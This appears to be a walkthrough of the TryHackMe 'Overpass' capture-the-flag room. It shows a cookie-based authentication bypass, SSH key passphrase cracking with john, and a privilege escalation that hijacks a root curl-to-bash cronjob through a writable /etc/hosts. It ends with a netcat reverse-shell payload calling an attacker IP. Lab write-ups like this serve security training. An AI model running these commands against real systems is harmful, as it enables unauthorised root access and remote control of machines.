

# Overpass (THM)

- https://tryhackme.com/room/overpass
- March 2, 2023
- easy

---

## Enumeration

- Nmap Initial

1. 22/ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
2. 80/http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)

- check http
- download buildscript.sh and overpass.go files.
- analyse overpass.go file

  - passListEntry -> name, pass
  - rot47 encrypt
  - save credentials to file
  - load credentials from file and check username, password
  - credentials are stored as json format
  - CRUD data
  - save file in ~/.overpass file

- enumerate directories

```sh
$ ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/common.txt

aboutus                 [Status: 301, Size: 0, Words: 1, Lines: 1]
admin                   [Status: 301, Size: 42, Words: 3, Lines: 3]
css                     [Status: 301, Size: 0, Words: 1, Lines: 1]
downloads               [Status: 301, Size: 0, Words: 1, Lines: 1]
img                     [Status: 301, Size: 0, Words: 1, Lines: 1]
index.html              [Status: 301, Size: 0, Words: 1, Lines: 1]
render/https://www.google.com [Status: 301, Size: 0, Words: 1, Lines: 1]
:: Progress: [4713/4713] :: Job [1/1] :: 114 req/sec :: Duration: [0:00:41] :: Errors: 0 ::
```

- from admin page, download 3 javascript files
- nothing special in main.js
- from login.js

```javascript
...
async function login() {
    // ...
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

- try to set cookie "SessionToken:anyvalue" in admin page

```sh
$ curl http://$IP/admin/ -H "Cookie: SessionToken=anyvalue"
```

- get private key and save as id_rsa
- enter ssh with id_rsa
- username ?? -> try with root, need to find usernames from webpage
- change permission 600 to id_rsa
- need passphrase
- crack with john

```sh
$ /opt/tools/john/run/ssh2john.py id_rsa > forjohn
$ john forjohn
```

- passphrase - `james13`
- username - james ??

```sh
$ ssh james@$IP -i id_rsa
```

- can enter as james user
- `sudo -l` -> password `james13` is not correct
- found .overpass file in his folder

```
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.
```

- decrypt rot47 at cyberchef

```json
[{ "name": "System", "pass": "saydrawnlyingpicture" }]
```

- there is no username System. Try to change user from `/etc/passwd` file
- it is james' password
- try to run linpeas
- Interesting outputs

```
# cronjob
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

- and

```sh
james@overpass-prod:/tmp$ ls -la /etc/hosts
-rw-rw-rw- 1 root root 250 Jun 27  2020 /etc/hosts
```

- can I make a server like this directory and put reverse shell to buildscript.sh in my own server
- change my IP to overpass.thm in /etc/hosts file as it has rw access
- In my machine,

```sh
$ mkdir -p downloads/src/
$ touch downloads/src/buildscript.sh
```

- inside buildscript.sh,

```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4242 >/tmp/f
```

- make a server with python

```sh
python -m http.server 80
```

- listen with nc at 4242
- then change `/etc/hosts` file in victim machine
- original `/etc/hosts` -> `127.0.0.1 overpass.thm`

```
10.11.8.57 overpass.thm
```



---
